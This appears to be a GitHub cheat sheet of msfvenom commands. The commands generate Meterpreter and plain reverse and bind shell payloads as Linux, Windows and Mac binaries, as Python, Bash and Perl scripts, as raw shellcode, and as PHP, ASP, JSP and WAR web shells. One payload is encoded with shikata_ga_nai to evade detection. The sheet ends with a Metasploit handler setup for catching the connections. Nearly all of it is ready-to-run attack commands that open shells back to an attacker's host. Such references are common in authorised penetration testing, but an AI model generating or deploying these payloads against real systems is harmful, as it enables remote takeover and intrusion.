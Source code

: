 # MSFvenom payload creator

- [Binaries](#Binaries)
    - [Linux](#Linux)
    - [Windows](#Windows)
    - [Mac](#Mac)
- [Scripting](#Scripting)
- [Shellcode](#Shellcode)
- [Web](#Web)

- [Handlers](#Handlers)
- [Tools](#Tools)

# Binaries
- ## Linux
  - Meterpreter reverse shell
    - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
  - Meterpreter bind shell
    - msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > shell.elf
  - Bind shell
    - msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > shell.elf
  - Reverse shell
    

- ## Windows
  - Meterpreter reverse shell
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
  - Meterpreter bind shell
  
  - Reverse shell
    - msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
  - Bind shell
  
  - Meterpreter encoded reverse shell 
    - msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
  
- ## Mac
  - msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

# Scripting 
- Python
  - msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
- Bash
  - msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
- Perl
  - msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
  
# Shellcode 
- Linux Based Shellcode
  - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
- Windows Based Shellcode
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
- Mac Based Shellcode
  - msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
  
# Web 
- PHP
  - msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
- ASP
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
- JSP
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
- WAR
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

# Handlers
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```
## Tools
- https://github.com/g0tmi1k/msfpc
